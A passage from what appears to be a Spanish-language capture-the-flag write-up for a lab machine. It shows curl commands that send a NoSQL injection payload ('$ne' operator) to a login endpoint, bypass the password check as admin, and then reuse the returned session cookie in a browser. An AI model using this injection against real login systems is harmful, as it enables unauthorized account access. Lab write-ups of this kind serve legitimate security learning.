 ```ruby
curl -v -X POST -d '{"user": "admin", "password": {"$ne": "mizuki"}}' -H 'Content-Type: application/json' 10.10.11.139:5000/login 2>&1 | grep -E "Content-Length|Invalid"
```

Y ahora dio una respuesta diferente al ```Content-Length: 1040``` y ya no muestra el ```Invalid Password```

```ruby
curl -v -X POST -d '{"user": "admin", "password": {"$ne": "mizuki"}}' -H 'Content-Type: application/json' 10.10.11.139:5000/login 2>&1 | grep -E "Content-Length|Invalid"
> Content-Length: 48
< Content-Length: 2625
```

Eso significa que funciono, en caso de que lo estes haciendo como yo, con curl, puedes modificar el comando y quitarle el grep, asi que quedaria de esta forma:

```ruby
curl -v -X POST -d '{"user": "admin", "password": {"$ne": "mizuki"}}' -H 'Content-Type: application/json' 10.10.11.139:5000/login
```

Ahora saldra mas informacion, y en los encabezados de respuesta podras ver una cookie de sesion:

```ruby
Set-Cookie: auth=%7B%22user%22%3A%22admin%22%2C%22sign%22%3A%2223e112072945418601deb47d9a6c7de8%22%7D; Max-Age=900; Path=/; Expires=Wed, 09 Aug 2023 03:24:03 GMT; HttpOnly
```

Asi que ahora debemos de establecer esa cookie en el navegador, puedes usar Cookie Editor o desde el mismo navegador, yo use Cookie Editor y quedo asi:

![](/assets/img/nodeBlog/5.png)

Y el recargar la pagina en la ruta **/** ya podremos acceder como admin evadiendo el login
